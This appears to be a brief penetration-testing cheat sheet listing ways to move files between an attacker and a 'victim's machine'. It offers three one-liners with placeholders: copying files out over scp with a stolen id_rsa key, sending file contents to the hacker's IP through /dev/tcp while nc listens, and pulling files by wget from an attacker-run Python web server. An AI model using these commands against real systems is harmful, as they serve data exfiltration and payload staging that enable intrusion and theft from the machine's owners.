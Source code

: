 - `scp -i {KEY_FILE} {USER}@{IP}:{FILE_PATH} {LOCAL_PATH}` - This way can be used when you've the id_rsa of the victim's machine
- `cat < {FILE} > /dev/tcp/{HACKER'S IP}/{PORT}` while `nc -lvnp {PORT} > {DESIRED NAME}` - This way can be used when the machine doesn't have much tools.
- `wget http://{HACKER IP}/{FILE}` while `python -m http.server 80` in the file's directory - This can be used when the victim's machine has wget or python respectively